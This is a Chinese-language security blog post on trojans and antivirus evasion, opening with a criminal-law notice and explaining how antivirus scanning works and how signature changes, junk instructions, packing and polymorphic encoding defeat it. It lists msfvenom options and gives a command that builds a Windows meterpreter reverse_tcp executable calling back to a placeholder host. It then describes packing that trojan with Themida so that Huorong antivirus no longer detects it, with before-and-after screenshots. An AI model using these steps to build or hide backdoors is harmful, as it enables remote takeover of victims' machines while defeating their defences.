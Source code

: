 ```yaml
---
title: 木马与免杀
author: Pandaho
date: 2022-1-23 20:00:00 
categories: [Project] 
tags: [security]
image: /assets/img/security-msfvenom-miansha/cover.png
---
```





## 法律声明

**中华人民共和国刑法：** 第285、286、287条

**第二百八十五条** 违反国家规定，·侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。

**第二百八十六条** 违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的，处五年以下有期徒刑或者拘役；后果特别严重的，处五年以上有期徒刑。违反国家规定，对计算机信息系统中存储、处理或者传输的数据和应用程序进行删除、修改、增加的操作，后果严重的，依照前款的规定处罚。故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行，后果严重的，依照第一款的规定处罚。

**第二百八十七条** 利用计算机实施金融诈骗、盗窃、贪污、挪用公款、窃取国家秘密或者其他犯罪的，依照本法有关规定定罪处罚。



## 用知识的土壤来填埋这些坑洞

**后门木马又称特洛伊木马（Trojan Horse）**

是一种后门程序。后门木马具有很高的伪装性，通常表现为一个正常的应用程序或文件，以获得广泛的传播和目标用户的信任。当目标用户执行后门木马程序后，攻击者即可对用户的主机进行破坏或盗取敏感数据，如各种账户、密码、保密文件等。在黑客进行的各种攻击行为中，后门木马基本上都起到了先导作用，为进一步的攻击打下基础。

**杀毒原理**

基于特征码的静态扫描技术：匹配到特征字符串就可以判断出来这个文件是一个病毒。

启发式扫描：通过分析指令出现的顺序，或特定组合情况等常见病毒的标准特征来判断文件是否感染未知病毒。

虚拟化技术：为待查的可执行程序创建一个虚拟的执行环境，提供它可能用到的一切元素，包括硬盘，端口等，让它在其上自由发挥，最后根据其行为来判定是否为病毒。

**免杀技术**

修改特征码：根据校验和查杀技术提出的免杀思想，如果一个文件某个特定区域的校验和符合病毒库中的特征，那么反病毒软件就会报警。如果想阻止反病毒软件报警，只要对病毒的特定区域进行一定的更改，就会使这一区域的校验和改变，从而达到欺骗反病毒软件的目的。

花指令：在程序`shellcode`或特征代码区域增添垃圾指令，这些指令没有实际含义，不会改变程序运行逻辑，但可以阻止反编译，现在杀软在检测特征码时，都会存在偏移范围，当我们使用花指令对特征码区域进行大量填充，这样就可以实现躲避杀软的特性。

加壳：加密壳基本上可以把特征码全部掩盖。这里说的壳指加密壳，一些普通压缩壳，并不能起到改变特征码的效果，例如：`UPX`、`ASPack`等。

编译技术：多态编码技术使得每次生成的攻击载荷文件是不一样的，编码和解码也都是不一样。还可以利用管道进行多重编码进行免杀。

### msfvenom

一个后门木马生成的渗透工具，支持的命令参数：

```shell
Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads # 指定特定的 Payload，如果被设置为 - ，那么从标准输入流中读取
        --payload-options            List the payload's standard options # 列出指定 Payload 的标准可选配置项
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all # 列出所有可用的项目，其中值可以被设置为 payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload # 指定 nop 在 payload 中的数量（译者注：类似堆喷射中通过 nop 滑动到 payload）
    -f, --format        <format>     Output format (use --help-formats for a list) # 指定 Payload 的输出格式
        --help-formats               List available formats # 列出所有可用的输出格式
    -e, --encoder       <encoder>    The encoder to use # 指定使用的 Encoder
    -a, --arch          <arch>       The architecture to use # 指定目标系统架构
        --platform      <platform>   The platform of the payload # 指定目标系统平台
        --help-platforms             List available platforms # 列出可用的平台
    -s, --space         <length>     The maximum size of the resulting payload # 设置未经编码的 Payload 的最大长度
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value) # 编码后的 Payload 的最大长度
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff' # 设置需要在 Payload 中避免出现的字符
    -i, --iterations    <count>      The number of times to encode the payload # 设置 Payload 的编码次数
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include # 指定包含一个额外的win32 shellcode文件
    -x, --template      <path>       Specify a custom executable file to use as a template # 指定一个特定的可执行文件作为模板
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread # 保护模板程序的功能，注入的payload作为一个新的进程运行
    -o, --out           <path>       Save the payload # 保存 Payload 到文件
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats # 指定一个变量名
（译者注：当添加 -f 参数的时候，例如 -f python，那么输出为 python 代码， payload 会被按行格式化为 python 代码，追加到一个 python 变量中，这个参数即为指定 python 变量的变量名）
        --smallest                   Generate the smallest possible payload # 尽可能生成最短的 Payload
    -h, --help                       Show this message # 帮助
```

这次主要介绍一个免杀工具，现今单纯采用工具生成的木马基本都很难逃过查杀，所以必须采用加壳、花指令，编译等方式进行免杀，以下是免杀工具测试过程：

```shell
msfvenom -platform windows -a x86 -p windows/meterpreter/reverse_tcp  lhost=x.x.x.x port=4444 -f exe -o /root/xx.exe
#先生成一个木马
set payload windows/meterpreter/reverse_tcp
#进入msfconsole设置payload
```

**Themida**

这是一款软件保护器，创建软件保护程序是为了防止攻击者直接检查或修改已编译的应用程序。软件保护器就像一个保护应用程序加密并防止可能的攻击的盾牌。当操作系统要运行受保护的应用程序时，软件保护程序将首先控制 CPU 并检查可能在系统上运行的破解工具（反编译器或反编译器）。如果一切安全，软件保护程序将继续解密受保护的应用程序，并让其控制 CPU 正常执行。

该软件主要是用来防反编译的，也就是说可以加固应用程序，那我们生成的木马自然也可以用来加固，实现免杀。

免杀效果（截至2022年01月23日，火绒版本5.0.65.2）

加固前

![图例](/assets/img/security-msfvenom-miansha/1.png)

加固后

![图例](/assets/img/security-msfvenom-miansha/2.jpg)



## 参考来源

[Themida官网](https://www.oreans.com/Themida.php)

[免杀技术详解](https://www.freebuf.com/articles/web/271271.html)

[msfvenom详解](https://xz.aliyun.com/t/2381)